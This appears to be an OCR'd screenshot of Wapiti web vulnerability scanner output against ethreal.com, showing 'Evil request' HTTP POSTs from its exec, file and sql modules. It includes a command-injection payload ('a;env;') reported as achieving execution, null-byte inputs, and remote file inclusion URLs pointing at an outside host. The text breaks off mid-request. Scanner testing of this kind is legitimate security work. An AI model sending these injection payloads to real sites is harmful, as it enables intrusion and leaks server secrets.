 [*] Launching module exec
---
Received a HTTP 500 error in http://ethreal.com/backend/login
Evil request:
    POST /backend/login HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/backend/login
    Content-Type: application/x-www-form-urlencoded

    username=%2Fe%00&password=Letm3in_
---
---
Command execution in http://ethreal.com/contact via injection in the parameter subject
Evil request:
    POST /contact HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/contact
    Content-Type: application/x-www-form-urlencoded

    name=default&email=wapiti2021%40mailinator.com&subject=a%3Benv%3B&message=Hi+there%21
---

[*] Launching module file
---
Received a HTTP 500 error in http://ethreal.com/backend/login
Evil request:
    POST /backend/login HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/backend/login
    Content-Type: application/x-www-form-urlencoded

    username=https%3A%2F%2Fwapiti3.ovh%2Fe.php%00&password=Letm3in_
---
---
Received a HTTP 500 error in http://ethreal.com/contact
Evil request:
    POST /contact HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/contact
    Content-Type: application/x-www-form-urlencoded

    name=default&email=wapiti2021%40mailinator.com&subject=https%3A%2F%2Fwapiti3.ovh%2Fe.php%00&message=Hi+there%21
---

[*] Launching module sql
---
Received a HTTP 500 error in http://ethreal.com/backend/login
Evil request:
    POST /backend/login HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/backend/login
    Content-Type: application/x-www-form-urlencoded
